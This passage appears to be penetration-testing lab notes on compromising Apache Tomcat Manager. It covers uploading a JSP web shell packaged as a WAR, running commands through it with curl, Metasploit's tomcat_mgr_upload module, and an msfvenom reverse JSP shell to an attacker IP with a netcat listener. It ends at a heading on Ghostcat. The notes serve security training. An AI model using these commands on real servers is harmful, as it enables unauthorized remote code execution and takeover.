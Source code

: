 2. **Package into a WAR**:

   ```bash
   zip -r backup.war cmd.jsp
   ```

3. **Log in to Manager GUI** → Browse → Select `backup.war` → Deploy.

   * Context path will be `/backup`.

4. **Access the shell**:

   ```
   http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
   ```

   * Example via cURL:

     ```bash
     curl "http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id"
     ```

5. **Cleanup**:

   * From Manager GUI, click **Undeploy** next to `/backup`.
   * Verify removal of:

     ```
     /opt/tomcat/apache-tomcat-*/webapps/backup.war
     /opt/tomcat/apache-tomcat-*/webapps/backup/
     ```

### 🤖 Automated WAR Upload via Metasploit

* **Module**: `multi/http/tomcat_mgr_upload`
* Automates authentication + WAR upload + payload execution.

### 🛠️ Using msfvenom to Create a Reverse JSP Shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp \
 lhost=10.10.14.15 lport=4443 -f war > rev_shell.war
```

* Deploy `rev_shell.war` via Manager GUI.
* Start Netcat listener:

  ```bash
  nc -lnvp 4443
  ```
* Browse to shell to trigger payload:

  ```
  http://web01.inlanefreight.local:8180/backup/
  ```
* Gain a reverse shell as **tomcat** user.

## 3️⃣ CVE-2020-1938 Ghostcat (AJP LFI)

